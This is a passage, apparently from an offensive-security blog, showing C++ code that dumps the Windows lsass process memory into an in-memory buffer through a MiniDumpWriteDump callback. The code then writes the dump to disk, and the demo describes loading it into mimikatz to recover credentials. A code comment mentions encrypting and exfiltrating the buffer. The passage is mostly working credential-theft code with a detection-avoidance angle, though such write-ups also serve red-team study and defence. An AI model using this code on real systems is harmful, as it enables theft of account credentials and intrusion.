 ```cpp
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	
	// Set up minidump callback
	MINIDUMP_CALLBACK_INFORMATION callbackInfo;
	ZeroMemory(&callbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
	callbackInfo.CallbackRoutine = &minidumpCallback;
	callbackInfo.CallbackParam = NULL;

	// Dump lsass
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, NULL, MiniDumpWithFullMemory, NULL, NULL, &callbackInfo);

	if (isDumped) 
	{
		// At this point, we have the lsass dump in memory at location dumpBuffer - we can do whatever we want with that buffer, i.e encrypt & exfiltrate
		printf("\n[+] lsass dumped to memory 0x%p\n", dumpBuffer);
		HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
		// For testing purposes, let's write lsass dump to disk from our own dumpBuffer and check if mimikatz can work it
		if (WriteFile(outFile, dumpBuffer, bytesRead, &bytesWritten, NULL))
		{
			printf("\n[+] lsass dumped from 0x%p to c:\\temp\\lsass.dmp\n", dumpBuffer, bytesWritten);
		}
	}
	
	return 0;
}
```

Thanks [Niall Newman](https://twitter.com/NiallNSec) for pointing me to [SafetyDump](https://github.com/m0rv4i/SafetyDump/blob/master/SafetyDump/Program.cs) by [@m0rv4i](https://twitter.com/m0rv4i), who implemented `MiniDumpWriteDump` with callbacks in C\#, which I used as a guide for implementing the callback logic.

### Demo

On the left, `0x00000135B8291040` \(`dumpBuffer`\) gets populated with minidump data after the `MiniDumpWriteDump` API is called.

On the right, we're executing the same code and it says that the minidump was written to our buffer at `0x000001AEA0BC4040`. For testing purposes, bytes from the same buffer `0x000001AEA0BC4040` were also written to `c:\temp\lsass.dmp` using `WriteFile`, so that we could load the lsass dump to mimikatz \(bottom right\) and ensure it's not corrupted and credentials can be retrieved:
